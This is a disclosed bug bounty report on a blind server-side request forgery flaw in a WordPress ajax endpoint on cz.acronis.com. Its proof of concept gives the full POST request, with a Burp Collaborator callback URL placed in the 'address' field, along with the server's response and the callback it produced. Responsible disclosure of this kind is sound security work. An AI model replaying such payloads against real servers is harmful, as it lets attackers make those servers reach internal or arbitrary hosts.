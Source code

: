 # Blind SSRF vulnerability on cz.acronis.com

## Report Details
- **Report ID**: 1086206
- **URL**: https://hackerone.com/reports/1086206
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-24T22:58:23.747Z
- **Disclosed**: 2024-08-27T14:04:30.228Z

## Reporter
- **Username**: cabelo
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
Hello Acronis team.

I would like to report a Blind SSRF  vulnerability on cz.acronis.com.

Affected Url: https://cz.acronis.com/wp-admin/admin-ajax.php

Parameter vulnerable: address and company

POC:

POST Request, payload in address body parameter:
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: cz.acronis.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://cz.acronis.com/kosik/?item=7200
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 582
Connection: close
Cookie: _ga=GA1.2.1144740602.1610556882; _fbp=fb.1.1610556883161.353705208; leady_session_id=8dd6174f-2994-4c5c-977f-d58ab8931a83; _gid=GA1.2.696910190.1611347375; PHPSESSID=ej1u101q1es5tb127hitsqscp5; has_js=1; language_prefix=sortiment

items%5B0%5D%5Bname%5D=Acronis+Disk+Director+12.5+Home+1+PC&items%5B0%5D%5Bprice%5D=1056&items%5B0%5D%5BformattedPrice%5D=1056.00k%C4%8D&totalSurcharge=1056&addItem=undefined&removeItem=undefined&recalculate=undefined&name=Jmone&isCompany=YES&notifier_x-iscompany=NO&undefined=false&deliveryClearKatakana=true&company=&surname=Pifsf&deliveryClearRomanized=true&address=http%3a%2f%2fjczo3ewu8jpfgyiajmkacspsnjtbh0.burpcollaborator.net/ssrf&zip=25458&city=sdfasd&ico=&dic=&email=test%40fgmail.com&phone=%2B420+724+023+780&newsletter=false&notifier_x-newsletter=NO&action=createPayment
```

App Response:
```
HTTP/1.1 200 OK
Date: Sun, 24 Jan 2021 22:46:17 GMT
Server: Apache/2.4.38 (Debian)
Pragma: no-cache
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin
Vary: Accept-Encoding
Upgrade: h2,h2c
Connection: Upgrade, close
Referrer-Policy: 
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Length: 92
Content-Type: text/html; charset=UTF-8

{"status":"ok","gw_url":"https:\/\/gate.gopay.cz\/gw\/v3\/eec2d2792d0935ea959b71b0762a4559"}
```

Callback HTTP connection from Acronis server 109.123.216.85  (SSRF vulnerability):
{F1170498}

{F1170497}


More information about the execution context, please, send a message.

Regards

## Impact

Blind SSRF, this vulnerability allows any unauthenticated user/client to make Wordpress send HTTP requests to any URL/address (internal or external).

Other attacks can be performed using this vulnerability, such as network amplification attacks to other systems that it can interact with.

## Attachments
- 1611528380_1946_24012021_708x243.png
- 1611528388_1946_24012021_589x50.png
